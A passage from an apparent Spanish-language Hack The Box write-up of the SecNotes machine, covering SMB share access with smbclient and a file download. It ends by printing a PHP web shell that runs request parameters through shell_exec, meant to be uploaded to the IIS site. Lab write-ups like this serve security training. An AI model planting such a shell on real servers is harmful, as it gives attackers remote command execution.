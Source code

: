 A partir de este punto empezaremos a trabajar con `smbclient`, ya que nos resultará mucho más cómoda su interfaz de línea de comandos (CLI).

```
smbclient //10.10.10.97/new-site -U 'tyler'
```

Para saber de que se trata el contenido dentro del recurso `new-site` podemos descargarlo en nuestra máquina con el comando `get`, aunque podemos también intuirlo en base al nombre de los archivos, `IIS`.

```
get iisstart.htm
get iisstart.png
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-02-28-SecNotes-Hack-The-Box/30.png){:class="blog-image" onclick="expandImage(this)"} 

Rápidamente nos daremos cuenta que estamos frente al contenido de la segunda página web, alojada en el puerto `8808`; por lo que, dada nuestra capacidad de escritura sobre el recurso, deberíamos de poder subir contenido que se vea reflejado en el servidor web.

Empecemos por subir algo simple como una `web shell`.

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
